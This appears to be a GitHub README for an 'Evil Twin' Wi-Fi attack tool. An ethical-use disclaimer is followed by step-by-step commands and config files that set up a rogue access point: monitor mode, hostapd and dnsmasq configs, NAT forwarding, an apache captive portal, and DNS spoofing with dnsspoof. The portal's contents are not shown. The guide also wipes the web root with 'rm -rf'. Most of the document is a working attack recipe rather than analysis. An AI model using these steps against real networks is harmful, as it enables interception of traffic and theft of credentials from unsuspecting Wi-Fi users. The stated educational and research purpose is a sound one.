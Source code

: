 # Warning: Ethical Use of Evil Twin Attacks

---

## Notice to Users:

The Evil Twin Attack Project has been developed for educational and research purposes only. Its primary aim is to aid in the understanding and prevention of wireless security threats by demonstrating the techniques used in such attacks. However, it is crucial to adhere to the following guidelines to ensure ethical and legal use of this tool.

### Strictly Prohibited Actions:

1. **Unauthorized Access:**
   - Do not use this tool to gain unauthorized access to any wireless network.
   - Never use this tool on any network without explicit permission from the network owner.

2. **Data Theft:**
   - Do not use this tool to intercept or steal data from any user or device connected to a wireless network.

3. **Privacy Violations:**
   - Respect the privacy of individuals. Do not monitor, capture, or manipulate communications of others without their consent.

4. **Disruption of Services:**
   - Do not use this tool to disrupt, disable, or otherwise interfere with the normal operation of any network or device.

### Legal Consequences:

Engaging in the activities listed above is illegal and punishable by law. Unauthorized access to computer systems, theft of data, and network disruptions can lead to severe penalties, including fines and imprisonment.

### Ethical Guidelines:

- **Research and Education:**
  - Use this tool solely for research and educational purposes, such as learning about wireless security, testing your own networks, or developing security measures to protect against such attacks.
  
- **Responsible Disclosure:**
  - If you discover vulnerabilities while using this tool, responsibly disclose them to the affected parties so they can take appropriate measures to secure their systems.

### User Responsibility:

By using this tool, you agree to abide by all applicable laws and ethical guidelines. You acknowledge that any misuse of this tool is solely your responsibility, and the creators of the tool are not liable for any unethical or illegal actions taken by users.

---

**Remember:**
Security research should always be conducted responsibly and ethically, with the goal of making networks and systems safer for everyone.

---


 # Preparing:

	apt-get update

	apt-get install hostapd dnsmasq apache2 

	airmon-ng start wlan0

	mkdir ~/fake-ap //Your working Directory

	cd ~/fake-ap

  ### ---You can change the styling of your HTML file according to you.---


# Create config files

 
	nano hostapd.conf 

 ## Instructions for hostapd.conf: 

  interface=[INTERFACE NAME]

  driver=nl80211

  ssid=[WiFi NAME]

  hw_mode=g

  channel=8

  macaddr_acl=0

  ignore_broadcast_ssid=0


	nano dnsmasq.conf

 ## Instructions for dnsmasq.conf: 

interface=[INTERFACE NAME]

dhcp-range=192.168.1.2, 192.168.1.30, 255.255.255.0, 12h

dhcp-option=3, 192.168.1.1

dhcp-option=6, 192.168.1.1

server=8.8.8.8

log-queries

log-dhcp

listen-address=127.0.0.1


 ## Routing table and gateway:

	ifconfig wlan0mon up 192.168.1.1 netmask 255.255.255.0
	route add -net 192.168.1.0 netmask 255.255.255.0 gw 192.168.1.1

 ## Internet access:

	iptables --table nat --append POSTROUTING --out-interface eth0 -j MASQUERADE
	iptables --append FORWARD --in-interface wlan0mon -j ACCEPT
	echo 1 > /proc/sys/net/ipv4/ip_forward

 	
## Captive portal setup:
	
	rm -rf /var/www/html/*
	
	mv ~/fake-ap-captive-portal/. /var/www/html
	
	cd /var/www/html
		
	service apache2 start
	

 # --- Start the attack on different terminals ---: 

	hostapd hostapd.conf

	dnsmasq -C dnsmasq.conf -d

	dnsspoof -i wlan0mon

	
